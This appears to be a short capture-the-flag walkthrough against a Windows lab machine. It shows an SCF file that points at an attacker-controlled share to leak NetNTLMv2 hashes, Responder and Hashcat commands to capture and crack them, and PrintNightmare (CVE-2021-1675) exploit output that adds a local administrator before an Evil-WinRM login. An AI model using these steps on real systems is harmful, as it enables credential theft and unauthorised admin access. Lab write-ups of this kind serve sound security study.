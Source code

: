 https://www.google.com/amp/s/pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/amp/

#### Nmap scan results 
```
80/tcp   open  http         Microsoft IIS httpd 10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds                                       
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) (win-rm)
```

* Save the below code as .scf and find a way to upload it.
```
[Shell]
Command=2
IconFile=\\your_ip\share\pentestlab.ico
[Taskbar]
Command=ToggleDeskto
```
* Run Responder
```
responder -wrf --lm -v -I tun0
```
* Identify the hash with hashid
 should be NetNTLMv2 hash
 
* pass the hash and crack with Hashcat mode -m 5600
-------------------------------------------------------------

### CVE-2021-1675 (priv esc)
> github:https://github.com/calebstewart/CVE-2021-1675 

```
*Evil-WinRM* PS C:\temp> Get-executionpolicy
Restricted
*Evil-WinRM* PS C:\temp> Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
*Evil-WinRM* PS C:\temp> Get-executionpolicy
Unrestricted
*Evil-WinRM* PS C:\temp> Import-Module .\print-nightmare.ps1
*Evil-WinRM* PS C:\temp> Invoke-Nightmare -NewUser "john" -NewPassword "password" -DriverName "PrintMe"

[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user john as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll

```

* Open a new evil-winrm session
```
evil-winrm -i 192.168.1.1 -u john -p password
```
